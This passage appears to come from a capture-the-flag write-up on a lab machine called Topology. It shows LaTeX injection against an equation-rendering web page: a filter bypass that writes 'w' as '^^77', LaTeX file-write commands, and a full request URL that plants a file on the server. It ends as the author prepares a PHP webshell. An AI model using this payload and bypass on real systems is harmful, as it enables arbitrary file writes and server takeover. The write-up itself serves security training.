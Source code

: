 But replace the “w” with “^^77” and it gets through.

### WebShell

To write a file, I’ll need a few LaTeX commands:

    
    
    \newwrite\outfile
    \openout\outfile=cmd.tex
    \write\outfile{Hello-world}
    \closeout\outfile
    

To send those to Topology, I initially tried `;` as a separator, but no
separator at all works as well:

    
    
    http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.tex\^^77rite\outfile{0xdf%20was%20here}\closeout\outfile
    

When I send this, the resulting PNG is empty:

![image-20231102170149211](../img/image-20231102170149211.png)

Going over to `latex.topology.htb/tempfiles`, it’s there:

![image-20231102170220688](../img/image-20231102170220688.png)

I’ll change the written text to a PHP webshell, and the output filename to
`cmd.php`:
